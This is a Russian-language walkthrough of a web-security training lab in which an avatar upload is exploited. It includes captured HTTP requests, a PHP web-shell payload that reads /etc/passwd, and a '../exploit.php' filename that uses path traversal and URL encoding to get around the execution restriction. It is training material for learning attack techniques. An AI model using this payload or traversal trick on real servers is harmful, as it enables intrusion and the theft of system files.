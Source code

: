 Лаборатория содержит уязвимую функцию загрузки изображений. Сервер настроен на предотвращение выполнения файлов, предоставленных пользователем, но это ограничение можно обойти, воспользовавшись вторичной уязвимостью.

## Дано

учётка `wiener:peter`

## Задача

загрузите базовую веб-оболочку PHP и использовать её для извлечения содержимого файла. `/home/carlos/secret`

# Разведка

POST запрос на смену аватарки
```
POST /my-account/avatar HTTP/2
Host: 0a810029034830ce80fe44a200c20063.web-security-academy.net
Cookie: session=yJvW2hVfRsTLIFcORHVgoUfvUw0sbmGD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------323071807823304113702786884930
Content-Length: 499
Origin: https://0a810029034830ce80fe44a200c20063.web-security-academy.net
Referer: https://0a810029034830ce80fe44a200c20063.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------323071807823304113702786884930
Content-Disposition: form-data; name="avatar"; filename="icons8-google-chrome-200.png"
Content-Type: image/png


-----------------------------323071807823304113702786884930
Content-Disposition: form-data; name="user"

wiener
-----------------------------323071807823304113702786884930
Content-Disposition: form-data; name="csrf"

eFFjyVKLQdOuFdVV3fhwYI98wJC4vzxK
-----------------------------323071807823304113702786884930--

```

GET получение изображения
```
GET /files/avatars/icons8-google-chrome-200.png HTTP/2
Host: 0a810029034830ce80fe44a200c20063.web-security-academy.net
Cookie: session=yJvW2hVfRsTLIFcORHVgoUfvUw0sbmGD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a810029034830ce80fe44a200c20063.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=5, i
Te: trailers
```

#### 1. Попробуем добавить полезную нагрузку с php ответ 200 положительно пропускает но выдаёт ответ в формате текста
```
HTTP/2 200 OK
Date: Thu, 23 Jan 2025 10:57:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 23 Jan 2025 10:57:47 GMT
Etag: "2f-62c5d7b03ba76"
Accept-Ranges: bytes
X-Frame-Options: SAMEORIGIN
Content-Length: 47

<?php echo file_get_contents('/etc/passwd'); ?>
```

#### 2. Попробуем загрузить на путь до /files
```
-----------------------------323071807823304113702786884930
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
```
Ответ 200 но он удаляет ../ . Попробуем закодировать в url
Супер `The file avatars/../exploit.php has been uploaded`

#### 3. Смотрим что находится теперь по новому пути с защитой

Пробита защита
![[Pasted image 20250123160627.png]]

